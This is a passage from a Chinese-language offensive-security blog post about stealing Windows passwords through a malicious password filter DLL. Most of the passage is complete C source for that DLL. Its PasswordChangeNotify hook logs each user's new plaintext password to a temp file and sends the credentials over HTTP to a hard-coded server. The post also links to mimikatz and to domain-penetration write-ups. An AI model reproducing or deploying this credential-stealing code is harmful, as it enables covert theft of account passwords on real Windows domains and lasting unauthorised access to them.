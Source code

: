 ![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210906084527.png)![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210906084528.png)

当然存储文件位置和类型可以自定义,只需更改HookPasswordChange.cpp文件。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210906084529.png)

如果觉得仍然不方便,希望直接将密码上传到服务器,可以使用http协议发送。

    
    
    #include <windows.h>#include <stdio.h>#include <WinInet.h>#include <ntsecapi.h>void writeToLog(const char* szString){    FILE* pFile = fopen("c:\\windows\\temp\\logFile.txt", "a+");    if (NULL == pFile)    {        return;    }    fprintf(pFile, "%s\r\n", szString);    fclose(pFile);    return;}// Default DllMain implementationBOOL APIENTRY DllMain( HANDLE hModule,                        DWORD  ul_reason_for_call,                        LPVOID lpReserved                     ){    OutputDebugString(L"DllMain");    switch (ul_reason_for_call)    {        case DLL_PROCESS_ATTACH:        case DLL_THREAD_ATTACH:        case DLL_THREAD_DETACH:        case DLL_PROCESS_DETACH:            break;    }    return TRUE;}BOOLEAN __stdcall InitializeChangeNotify(void){    OutputDebugString(L"InitializeChangeNotify");    writeToLog("InitializeChangeNotify()");    return TRUE;}BOOLEAN __stdcall PasswordFilter(    PUNICODE_STRING AccountName,    PUNICODE_STRING FullName,    PUNICODE_STRING Password,    BOOLEAN SetOperation ){    OutputDebugString(L"PasswordFilter");    return TRUE;}NTSTATUS __stdcall PasswordChangeNotify(    PUNICODE_STRING UserName,    ULONG RelativeId,    PUNICODE_STRING NewPassword ){  FILE* pFile = fopen("c:\\windows\\temp\\logFile.txt", "a+");  //HINTERNET hInternet = InternetOpen(L"Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1; Trident/4.0",INTERNET_OPEN_TYPE_PRECONFIG,NULL,NULL,0);    HINTERNET hInternet = InternetOpen(L"Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1; Trident/4.0",INTERNET_OPEN_TYPE_DIRECT,NULL,NULL,0);    HINTERNET hSession = InternetConnect(hInternet,L"192.168.1.1",80,NULL,NULL,INTERNET_SERVICE_HTTP ,0,0);    HINTERNET hReq = HttpOpenRequest(hSession,L"POST",L"/",NULL,NULL,NULL,0,0);    char* pBuf="SomeData";    OutputDebugString(L"PasswordChangeNotify");    if (NULL == pFile)    {        return;    }    fprintf(pFile, "%ws:%ws\r\n", UserName->Buffer,NewPassword->Buffer);  fclose(pFile);    InternetSetOption(hSession,INTERNET_OPTION_USERNAME,UserName->Buffer,UserName->Length/2);    InternetSetOption(hSession,INTERNET_OPTION_PASSWORD,NewPassword->Buffer,NewPassword->Length/2);    HttpSendRequest(hReq,NULL,0,pBuf,strlen(pBuf));    return 0;}

## ![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210906084530.png)

##  **  
**

##  **推荐阅读**

https://blog.carnal0wnage.com/2013/09/stealing-passwords-every-time-they.html

https://github.com/gentilkiwi/mimikatz/blob/bb371c2acba397b4006a6cddc0f9ce2b5958017b/mimilib/kssp.c#L21

https://wooyun.js.org/drops/%E5%9F%9F%E6%B8%97%E9%80%8F%E2%80%94%E2%80%94Security%20Support%20Provider.html

https://paper.seebug.org/papers/Archive/drops2/%E5%9F%9F%E6%B8%97%E9%80%8F%E2%80%94%E2%80%94Hook%20PasswordChangeNotify.html
